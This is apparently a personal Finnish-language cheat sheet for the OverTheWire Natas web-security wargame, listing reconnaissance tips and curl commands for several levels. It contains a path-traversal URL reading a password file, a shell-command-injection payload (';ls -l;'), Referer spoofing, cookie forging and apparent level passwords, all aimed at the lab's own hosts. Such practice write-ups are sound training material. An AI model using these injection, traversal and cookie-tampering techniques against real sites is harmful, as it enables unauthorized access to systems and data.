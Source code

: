 # Natas lunttilapput

Eli perus harjoittuksien kannalta kertyy ja taso menee vaikeammaksi ja vaikeammaksi. Listataan olennaiset tarkistukset, ettei ole vain yhtä tapaa;

- tarkista sivuston koodit ja onko siellä vihejeitä joko avamalla F12, tai joko sivustolta oikea hiirellä "inspect" - ja katso onko koodissa mitään `username:password`
  - tarkista onko tiedoston polussa mitään polkuaja kuten `/file/image.jpg`, eli poista image.jpg , ja mene `/file`- polkuun, ja tarkista onko mahdollista olla .txt tiedostoa tai muuta arkistoa
  - lisää url polkuun `/robots.txt` , jos ois robots tiedosto, niin siellä voi lukea lisä vinkkejä. Todellisuudessaan kaikilla sivustoilla ei ole robots.txt-tiedostoa, koska sen käyttö ei ole pakollista. Jotkut haluavat hakukoneiden indeksoivan kaiken, kun taas toiset eivät tarvitse erityisiä rajoituksia. Ilman tätä tiedostoa hakukoneet voivat silti yrittää indeksoida kaikki löydettävissä olevat sivut, ellei muita estomekanismeja ole käytössä.
  - muutamissa tasoissa on **view sourcecode**, joka kertoo tämän tason vihjeitä se ohjeistaa usein uuden välilehden `/index-source.html`, ja siellä voi olla pientä apua hakkerille, että miten purettaan seuraavan tason salasansa.
  - kantsii testata onko mahdollista käyttää injektiota päästäkseen selvittää Natas tiedostohakemistoa ja sitä juurta `/etc/natas_webpass/natasX` - Tämä myös pätee URL perään, että voiko/kertoa vihjeitä tallennettun tiedoston polkua, että menee tähän hakemistoon. esim. `http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../etc/natas_webpass/natas8`

## curl komentoja

käytettään -Headeri referenssiä , ja tässä muutama ovat melko samoja, mutta jotekin se objekti/nimi/muuttuja on erissä järjestyksessä mutta idea on sama;

- Ensimmäisen linkkissä on halutaan mennä seuraavaan leveliin, ja jälkimmäisessä on nykyinen level ja se level salasansa jonka saattiin selville ja siksi tässä lukee (a)natas4-level;  <br>
`$curl -Headers "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ@natas4.natas.labs.overthewire.org`

- tämä on sama kuin ylempi, mutta lyhyempi ja tiivistettynä vain -H tarkoittaa header; <br>
`$curl -H "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ@natas4.natas.labs.overthewire.org`

- tässäkin ekana on toistettaan se nykyinen level ja se salasansa, että haettaan seuraava leveli; <br>
`$curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org`

- tässä komennossa tapahtuu ensimmäisenä -u käyttäjän autentikoinnin vahvistaminen `<username:password`, seuraavaksi `-b` niin lähettää HTTP-pyynnön mukana evästeen joka on nimetty uusi data="VALUE". Tätä data kantsii tarkistaa sivuston evästeen nimestä, koska se nimi saatta olla nimetty muulla nimityksellä. Lähetetyn tämän pyynnön jälkeen se tallentuu siihen istuntoon ja kannattaa päivittää sivustoa, että muuttuiko mitään. 
`curl -u "natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk" -b "data=<NewValue>" http://natas11.natas.labs.overthewire.org/`


- Tässä versiossa tapahtuu lähettää POST `-d` formaatti kenttään jos on ja vaikuttaa nimeämiseen, sitten käyttäen shell/linux komennon  injektiota ja sit vaan submit=submit (tätä kantsii tarkistaa HTML formaatti nimeämistä) ja -H palvelimen **Referer** headeriä, sitte -u käyttäjän autentikoinnin vahvistamista.
`curl -X POST -d "needle=;ls -l;&submit=submit" -H "Referer: http://natas9.natas.labs.overthewire.org/" -u "natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" http://natas9.natas.labs.overthewire.org`



## evästeen hakeminen

Oletuksena sivustosta voi tarkistaa evästeen esim. Chrome DEV työkalusta ja steppi menee: (F12/ oikea hiiren klikkaus **inspect**), sieltä välilehdestä kuin **application** --> **storage** >> **cookies** ja sieltä listasta valitsee tämän kyseisen sivuston mukaisen mitä datoja löytyy. 

Tämä on esimerkki (alempi kuva), mutta idea on sama ja tuotannossa *cookies* listauksia voi olla enemmän kuin yksi:
![alt text](./kuvat/level5-7.1.png)


loggin muutettu 0 (false) --> 1 (true)

Tämän komenton suorittamiseen vaattii sen nykyisen levelin salasansa, jotta saa kerrättyä sen evästeet; <br>
`$curl http://natas5.natas.labs.overthewire.org/ -u natas5 -c natas5_cookie.txt` 

```
┌──(kali㉿kali)-[~]
└─$ cat natas5_cookie.txt                                                        
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

natas5.natas.labs.overthewire.org       FALSE   /       FALSE   0       loggedin        0
                                                                                                                                
┌──(kali㉿kali)-[~]
└─$ cat natas5_cookie.txt                         
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

natas5.natas.labs.overthewire.org       FALSE   /       FALSE   0       loggedin        1
```

Ylemmän muutettun loggin=1:seksi, niin sitten suoritettaan ja haettaan sitä seuraavan levelin salasannsa; <br>
`$curl http://natas5.natas.labs.overthewire.org/ -u natas5 -b "natas5_cookie.txt"`





